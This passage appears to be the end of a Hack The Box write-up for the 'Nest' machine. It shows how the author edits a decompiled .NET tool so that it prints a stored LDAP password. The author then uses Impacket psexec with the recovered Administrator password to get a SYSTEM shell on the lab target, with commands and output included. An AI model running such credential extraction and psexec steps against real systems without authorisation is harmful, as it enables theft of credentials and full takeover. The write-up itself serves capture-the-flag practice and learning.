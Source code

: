 
So I simply delete the check and change one of the WriteLine statements to write ldap.Password

```
remove:

ElseIf Not File.Exists("HqkDbImport.exe") Then
		Console.WriteLine("Please ensure the optional database import module is installed")

and change:


Dim ldap As Ldap = New Ldap()
ldap.Username = ldapSearchSettings.Username
ldap.Password = ldapSearchSettings.Password
ldap.Domain = ldapSearchSettings.Domain
Console.WriteLine(ldap.Password)
```


```
PS F:\dnSpy-net-win64\Nest> .\HqkLdap_nodb.exe .\Ldap.conf
XtH4nkS4Pl4y1nGX
Unexpected error: The specified domain does not exist or cannot be contacted.
PS F:\dnSpy-net-win64\Nest>
```

And then finally we can use psexec to gain root:

```
root@kali:/home/kali/htb/Nest/AD Integration Module# psexec.py WORKGROUP/Administrator:XtH4nkS4Pl4y1nGX@10.129.114.52
Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.114.52.....
[*] Found writable share ADMIN$
[*] Uploading file fBjAqLkR.exe
[*] Opening SVCManager on 10.129.114.52.....
[*] Creating service QMuv on 10.129.114.52.....
[*] Starting service QMuv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```


Wow, what a box. I think writing down findings, and constantly checking back on them is the time-saving key here.

I think I will revisit the reverse engineering challenges here more thoroughly and properly understand them another day.
